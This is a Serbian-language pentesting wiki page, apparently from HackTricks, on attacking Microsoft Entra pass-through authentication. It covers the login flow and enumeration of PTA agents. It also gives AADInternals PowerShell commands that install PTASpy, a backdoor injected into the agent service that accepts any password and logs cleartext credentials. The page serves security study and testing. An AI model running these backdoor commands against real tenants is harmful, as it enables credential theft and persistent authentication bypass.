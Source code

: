 # Az - PTA - Pass-through Authentication

{{#include ../../../../banners/hacktricks-training.md}}

## Osnovne informacije

[Iz dokumenata:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-pta) Microsoft Entra pass-through authentication omogućava vašim korisnicima da **prijave se na aplikacije koje se nalaze na lokaciji i u oblaku koristeći iste lozinke**. Ova funkcija pruža vašim korisnicima bolje iskustvo - jedna lozinka manje za pamćenje, i smanjuje troškove IT podrške jer je manje verovatno da će korisnici zaboraviti kako da se prijave. Kada se korisnici prijave koristeći Microsoft Entra ID, ova funkcija direktno validira lozinke korisnika protiv vašeg lokalnog Active Directory-a.

U PTA **identiteti** su **sinhronizovani** ali **lozinke nisu** kao u PHS-u.

Autentifikacija se validira u lokalnom AD-u, a komunikacija sa oblakom se vrši putem **autentifikacionog agenta** koji radi na **lokalnom serveru** (ne mora biti na lokalnom DC-u).

### Tok autentifikacije

<figure><img src="../../../../images/image (92).png" alt=""><figcaption></figcaption></figure>

1. Da bi se **prijavio**, korisnik se preusmerava na **Azure AD**, gde šalje **korisničko ime** i **lozinku**
2. **Akreditivi** se **šifruju** i postavljaju u **red** u Azure AD
3. **Lokalni autentifikacioni agent** prikuplja **akreditive** iz reda i **dešifruje** ih. Ovaj agent se naziva **"Pass-through authentication agent"** ili **PTA agent.**
4. **Agent** **validira** akreditive protiv **lokalnog AD-a** i šalje **odgovor** **nazad** Azure AD-u koji, ako je odgovor pozitivan, **kompletira prijavu** korisnika.

> [!WARNING]
> Ako napadač **kompromituje** **PTA**, može **videti** sve **akreditive** iz reda (u **čistom tekstu**).\
> Takođe može **validirati bilo koje akreditive** za AzureAD (sličan napad kao na Skeleton key).

### Enumeracija

Iz Entra ID:
```bash
az rest --url 'https://graph.microsoft.com/beta/onPremisesPublishingProfiles/authentication/agentGroups?$expand=agents'
# Example response:
{
"@odata.context": "https://graph.microsoft.com/beta/$metadata#onPremisesPublishingProfiles('authentication')/agentGroups(agents())",
"value": [
{
"agents": [
{
"externalIp": "20.121.45.57",
"id": "4a000eb4-9a02-49e4-b67f-f9b101f8f14c",
"machineName": "ConnectSync.hacktricks-con.azure",
"status": "active",
"supportedPublishingTypes": [
"authentication"
]
}
],
"displayName": "Default group for Pass-through Authentication",
"id": "d372d40f-3f81-4824-8b9e-6028182db58e",
"isDefault": true,
"publishingType": "authentication"
}
]
}
```
Proverite da li agent radi na on-prem serveru:
```bash
Get-Service -Name "AzureADConnectAuthenticationAgent"
```
## Pivoting

Ako imate **admin** pristup **Azure AD Connect serveru** na kojem radi **PTA** **agent**, možete koristiti **AADInternals** modul da **ubacite backdoor** koji će **validirati SVE lozinke** unesene (tako da će sve lozinke biti važeće za autentifikaciju):
```bash
Install-Module AADInternals -RequiredVersion 0.9.3
Import-Module AADInternals
Install-AADIntPTASpy # Install the backdoor, it'll save all the passwords in a file
Get-AADIntPTASpyLog -DecodePasswords # Read the file or use this to read the passwords in clear-text

Remove-AADIntPTASpy # Remove the backdoor
```
> [!NOTE]
> Ako **instalacija ne uspe**, to je verovatno zbog nedostatka [Microsoft Visual C++ 2015 Redistributables](https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe).

Ova backdoor će:

- Kreirati skriveni folder `C:\PTASpy`
- Kopirati `PTASpy.dll` u `C:\PTASpy`
- Injektovati `PTASpy.dll` u proces `AzureADConnectAuthenticationAgentService`

> [!NOTE]
> Kada se AzureADConnectAuthenticationAgent servis ponovo pokrene, PTASpy se “uklanja” i mora se ponovo instalirati.

> [!CAUTION]
> Nakon dobijanja **GA privilegija** na oblaku, moguće je **registrovati novi PTA agent** i **ponoviti** **prethodne** korake za **autentifikaciju koristeći bilo koju lozinku** i takođe, **dobiti lozinke u čistom tekstu.**

### Seamless SSO

Moguće je koristiti Seamless SSO sa PTA, koji je podložan drugim zloupotrebama. Proverite to u:

{{#ref}}
seamless-sso.md
{{#endref}}

## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta)
- [https://aadinternals.com/post/on-prem_admin/#pass-through-authentication](https://aadinternals.com/post/on-prem_admin/#pass-through-authentication)

{{#include ../../../../banners/hacktricks-training.md}}
